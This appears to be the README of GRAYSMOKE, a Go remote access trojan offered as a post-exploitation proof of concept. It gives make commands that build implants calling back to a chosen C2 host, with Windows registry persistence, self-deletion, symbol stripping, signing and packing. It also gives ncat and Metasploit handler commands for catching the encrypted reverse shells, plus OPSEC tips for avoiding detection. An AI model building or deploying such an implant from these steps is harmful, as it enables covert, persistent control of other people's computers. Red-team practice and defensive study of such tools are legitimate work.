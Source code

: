 ## GRAYSMOKE
[![License](https://img.shields.io/badge/license-MIT-_red.svg)](https://opensource.org/licenses/MIT)
[![Go Report Card](https://goreportcard.com/badge/github.com/schwartz1375/graysmoke)](https://goreportcard.com/report/github.com/schwartz1375/graysmoke)

GRAYSMOKE is golang cross-platform post exploitation RAT poof of concept (POC).

## Features
* Cross-platform RAT, call backs to either to a ncat listener or Metasploit
* TLS encrypted in transit with server finger print embedded in the client to prevent MiTM on the self-signed certificate
* Supports fully qualified domain names (FQDN), and both IPv4 and IPv6 for parameters to build the binary and callbacks
```
make macos64 HOST=c2.example.com PORT=8080 PURGE=flase DELAY=0
make macos64 HOST="[::1]" PORT=8080 PURGE=flase DELAY=0
make windows64 HOST=192.168.221.128 PORT=8080 DELAY=0 INSTALL=true
callback [::1]:8080 sleep 10
callback 127.0.0.1:8080
```
* Supports sleeping (close the TLS TCP session) for a user specified time with automatic jitter
* Supports switching callback to a different C2
* On Linux it supports purging its self after the program exits
* Going beyond just ```go build``` 
    * Trimpath build flag, removes all file system paths from the compiled executable
    * ldflags "-s -w" 
        * -s Omit the symbol table and debug information.
        * -w Omit the DWARF symbol table.
 
* Windows specific:
    * Supports custom Microsoft Windows File Properties/Version information and icon (see ```resource/[icon.ico or verioninfo.json]```)
    * Has the persistence ability (copies itself to a hidden& archived folder and uses a registry key see 
 ```installer/installer_windows.go```) 

## Dependencies
* [Go](https://golang.org/) 1.16+
* GNU make
* [goversioninfo](https://github.com/josephspurrier/goversioninfo) (needed to add the windows resource information to the binary)
* osslsigncode (needed to sign the windows binary) if you don't care about signing you can comment these lines out in the Makefile.
* Packers, consider using a packer such as UPX for a smaller binary

## How to build
To get the POC working you shouldn't have to modify anything other than leveraging ```make``` with this with appropriate target and options (see the Makefile for details).  Note, you may also need to run "make depends" first to generate the generate self-signed certificate. 

* HOST - The host parameter is the IPaddr or FQDN for the C2 server (where you want the RAT to callback to).
* DELAY - Time in seconds before establishing the instal calling back.  Note that automatic jitter is added to the callback sleep commands when inter acating with GShell (e.g. ```callback 127.0.0.1:8080 sleep 60```) but not delay
* PURGE - Windows does not support windows.Unlink(file) on its self, so ```PURGE=false```. Lastly while possible it is recommended to NOT set both PURGE and DELAY simultaneously (e.g. PURGE=true and DELAY=10) for macOS Big Sur as this will result in unexpected behavior.  
* INSTALL -On macOS and Linux do not have a native install/persistence options so ```INSTALL=false``` is set in the Makefile, thus there is no reason to pass it on the build line.  

Examples
```
make depends [builds self-signed certificate]]
make windows64 HOST=192.168.221.128 PORT=8080 DELAY=0 INSTALL=true
```
The system supports ```make clean ``` note that make clean NOT delete the self-signed certificate (server pem & key file)]

More examples 
```
make linux64 HOST=192.168.221.128 PORT=8080 PURGE=true DELAY=10  
make macos64 HOST=192.168.221.128 PORT=8080 PURGE=flase DELAY=0
make macos64 HOST="[::1]" PORT=8080 PURGE=flase DELAY=0
make windows64 HOST=192.168.221.128 PORT=8080 DELAY=0 INSTALL=true
make windows64 HOST=192.168.221.128 PORT=8080 DELAY=60 INSTALL=true
```

### On The Target Host (Post Exploit)
Execute the binary on the target and watch for the call back to the HOST.  Note the build outputs to graysmoke\bin directory

### C2 Server
There are two options, one is leveraging ncat, the other is the metasploit framework:

* Ncat
```ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 8080```

* Metasploit
Combine the server key and server pem file into one 

    ```cat server.key >> server.pem```

    This will be needed when setting ```HandlerSSLCert``` option

    Start metasploit ```msfconsole```

    ```
    msf5 > use exploit/multi/handler
    msf5 > set payload python/shell_reverse_tcp_ssl
    msf5 > set HandlerSSLCert ./server.pem
    msf5 > set stagerverifysslcert true 
    msf5 > set lhost 0.0.0.0  
    msf5 > set lport 8080
    msf5 > exploit -j
    ```
    The reason we set the ```stagerverifysslcert true ``` is to enable [TLS Certificate Pinning](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-HTTP-Communication#tls-certificate-pinning)

## OPSEC
Things to consider
* The name of the binary
* The binary has multiple log.Println()
* Windows specific:
    * Persistence mechanism
    * The icon 
    * The values in the ./resource/verioninfo.json file especially "OriginalFilename" - this should match the binary name set in the Makefile

